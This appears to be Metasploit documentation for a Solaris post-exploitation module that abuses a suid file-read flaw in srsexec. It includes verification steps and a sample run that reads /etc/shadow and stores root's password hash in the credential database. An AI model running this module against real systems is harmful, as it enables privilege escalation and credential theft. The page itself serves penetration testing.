 ## Vulnerable Application

  The vulnerable binary (`srsexec`) is included in the package Sun Remote Services
  Net Connect Software Proxy Core (SUNWsrspx).  The vulnerable versions are
  3.2.3 and 3.2.4, for Solaris 10.  This package was included on the extras/companion CD which
  doesn't seem to available anymore.  `srsexec`'s vulnerability is that it runs with the suid bit set,
  and in debug verbose mode if given a file as input, the first line of that file will be echoed back.
  Common exploitation is to read `/etc/shadow`, to get root's password hash, however any file can be read.

  In lieu of this, a mock application was created in python and is available
  [here](https://github.com/h00die/MSF-Testing-Scripts/blob/master/srsexec).
  Follow the instructions in the python script to install, `argparse` also needs to be sent
  to the Solaris box since pypi.org doesn't accept ssl2/3 which are the only versions in Solaris 10u9.

  The output from `srsexec` is slightly odd.  The first line of the file will be
  after `binaries file line: ` and truncated at 20 characters.  If the output is longer than 20 characters,
  then the next line will start with the last 2 characters from the previous line, followed by the next 
  18 characters, and so on.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a user level session
  4. Do: ```use solaris/escalate/srsexec_readline```
  5. Do: ```set session [#]```
  6. Do: ```run```
  7. You should be able to read the first line of a file.
  8. If `/etc/shadow` is selected, check `creds`.

## Options

  **File**

  The file that should have the first line read.  Default is `/etc/shadow` and root's hash will be databased.

## Scenarios

### Solaris 10 u9 with mock binary and python 2.4

```
msf5 post(solaris/escalate/srsexec_readline) > run

[+] 3.2.4 is vulnerable
[+] Output: verify_binary(wsltw)
srsexec: binary_name: wsltw
srsexec: name_buf: wsltw_______________
binaries file line: root:MW7h.vpI1Kq1g:1
binaries file line: :17599::::::
smmsp:NP
Security verification failed for binary: wsltw
see SYSLOG(/var/adm/messages) for errors
[+] Adding root's hash added to credential database.
[*] Post module execution completed
msf5 post(solaris/escalate/srsexec_readline) > creds
Credentials
===========

host  origin        service  public  private        realm  private_type
----  ------        -------  ------  -------        -----  ------------
      1.1.1.1                root    MW7h.vpI1Kq1g         Nonreplayable hash
```
